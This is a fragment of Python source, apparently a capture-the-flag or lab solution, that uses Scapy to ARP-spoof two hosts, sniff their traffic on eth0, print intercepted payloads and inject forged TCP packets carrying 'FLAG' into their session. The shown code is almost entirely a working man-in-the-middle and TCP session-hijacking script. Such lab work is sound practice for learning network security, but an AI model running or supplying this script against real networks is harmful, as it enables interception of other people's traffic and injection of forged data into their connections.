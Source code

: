 ```python
					dport = packet[TCP].dport
					packet[TCP].sport = dport
					packet[TCP].dport = sport
					packet[TCP].flags= "A"
					packet[Raw].load = None
					del packet[IP].len
					del packet[IP].chksum
					del packet[IP].chksum
					packet.show2()
					sendp(packet,iface="eth0")
					
					packet[Raw].load = b"FLAG\n"
					seq =packet[TCP].seq
					ack = packet[TCP].ack
					packet[TCP].seq = ack
					packet[TCP].ack = seq+29
					packet[TCP].flags = "PA"
					del packet[IP].len
					del packet[IP].chksum
					del packet[TCP].chksum
					packet.show2()
					sendp(packet,iface="eth0")
		else :
			if ip_src == ip2 and ip_dst ==ip1:
				#print("{ip2} to {ip1}")
				if packet.haslayer(Raw):
					copy = packet.copy()
					data = copy[Raw].load
					print(data)
arp_thread=threading.Thread(target=arp_spoof)
arp_thread.start()

sniff(prn=process_packet,iface="eth0")
```